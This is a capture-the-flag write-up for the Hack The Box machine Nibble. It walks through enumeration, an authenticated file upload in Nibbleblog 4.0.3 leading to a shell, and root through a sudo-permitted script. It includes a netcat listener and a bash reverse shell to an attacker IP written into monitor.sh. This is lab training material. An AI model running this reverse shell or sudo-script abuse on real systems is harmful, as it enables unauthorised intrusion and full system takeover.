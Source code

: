 ```yaml
---
title: CTF Writeup - HTB Nibble
date: 2023-11-14
author: kei5uke
description: Writeup for HTB Nibble
tags:
  - linux
  - writeup
---
```


# Nibble

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/nibble]
└─# nmap -sV -sC -T4 -p- 10.129.68.48 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-14 22:53 EET
Nmap scan report for 10.129.68.48
Host is up (0.054s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.87 seconds
```

## Curl

Default page shows that there is a directory called `/nibbleblog`

```bash
┌──(root💀kali)-[/opt/generic]
└─# curl -X POST http://10.129.68.48
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

## Gobuster

```bash
┌──(root💀kali)-[~/nibble]
└─# gobuster dir -u http://10.129.68.48/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt  
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.68.48/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/11/14 23:02:51 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 325] [--> http://10.129.68.48/nibbleblog/content/]
/themes               (Status: 301) [Size: 324] [--> http://10.129.68.48/nibbleblog/themes/]
/admin                (Status: 301) [Size: 323] [--> http://10.129.68.48/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 325] [--> http://10.129.68.48/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 327] [--> http://10.129.68.48/nibbleblog/languages/]
Progress: 87625 / 87665 (99.95%)
===============================================================
2023/11/14 23:09:56 Finished
===============================================================
```

## Enumerating the blog

README in the blog says that the blog is called nibble and the version is 4.0.3

The exploit below says that there is php file that can upload some file, after logging as admin

[https://github.com/dix0nym/CVE-2015-6967](https://github.com/dix0nym/CVE-2015-6967)

You can login to admin page at `admin.php`

Username is `admin` and password is `nibbles`

Here in the My image plugin allows you to upload shell.

![Screenshot 2023-11-14 at 23.22.23.png](Nibble%200c3653b2aacf4a008231c03c2d1bb919/Screenshot_2023-11-14_at_23.22.23.png)

# Exploit

Access to the uploaded image file by pasting the link in the browser.

```bash
10.129.68.48/nibbleblog/content/private/plugins/my_image/image.php
```

I got the first shell.

```bash
┌──(root💀kali)-[~/nibble]
└─# rlwrap nc -lvnp 443                           
listening on [any] 443 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.68.48] 42354
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 16:21:28 up 30 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

# Privilege Escalation

[monitor.sh](http://monitor.sh) allows you to execute any bash script as root, I guess

```bash
nibbler@Nibbles:/tmp$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

I made reverse shell script and executed as root

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ touch monitor.sh
touch monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo '#!/bin/bash' >> monitor.sh
<er/personal/stuff$ echo '#!/bin/bash' >> monitor.sh                         
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'bash -i >& /dev/tcp/10.10.16.23/1234 0>&1' >> monitor.sh
<ash -i >& /dev/tcp/10.10.16.23/1234 0>&1' >> monitor.sh                     
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod 777 monitor.sh
chmod 777 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

# Root shell

I got root shell.

![Screenshot 2023-11-14 at 23.59.43.png](Nibble%200c3653b2aacf4a008231c03c2d1bb919/Screenshot_2023-11-14_at_23.59.43.png)